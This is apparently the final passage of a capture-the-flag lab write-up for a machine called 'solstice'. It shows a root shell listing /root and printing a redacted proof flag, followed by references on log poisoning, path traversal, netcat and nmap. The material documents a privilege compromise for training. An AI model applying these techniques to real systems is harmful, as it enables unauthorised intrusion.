drwx------  9 root root 4096 Sep  1 04:36 .
drwxr-xr-x 18 root root 4096 Jun 29  2020 ..
lrwxrwxrwx  1 root root    9 Jun 26  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Jun 17  2020 .cache
drwxr-xr-x  3 root root 4096 Jun 13  2020 .config
drwxr-xr-x  2 root root 4096 Jun 19  2020 ftp
drwx------  3 root root 4096 Jun 18  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-------  1 root root    0 Aug  7  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep  1 04:36 proof.txt
-rw-r--r--  1 root root   32 Aug 13  2020 root.txt
-rw-r--r--  1 root root   66 Jun 13  2020 .selected_editor
drwx------  2 root root 4096 Jun 19  2020 .ssh
-rw-r--r--  1 root root    0 Aug 13  2020 .wget-hsts
drwxr-xr-x  4 root root 4096 Jun 18  2020 .wine
root@solstice:/var/tmp/sv# cat /root/proof.txt
cat /root/proof.txt
e<REDACTED>d
root@solstice:/var/tmp/sv# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [File Inclusion/Path treversal - Via Apache/Nginx log file - HackTricks](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#via-apachenginx-log-file)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Logs Poisoning - The Hacker Recipes](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [netstat - Linux manual page](https://man7.org/linux/man-pages/man8/netstat.8.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Path traversal - PortSwigger](https://portswigger.net/web-security/file-path-traversal)
- [ps - Linux manual page](https://man7.org/linux/man-pages/man1/ps.1.html)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [User-Agent header - Wikipedia](https://en.wikipedia.org/wiki/User-Agent_header)
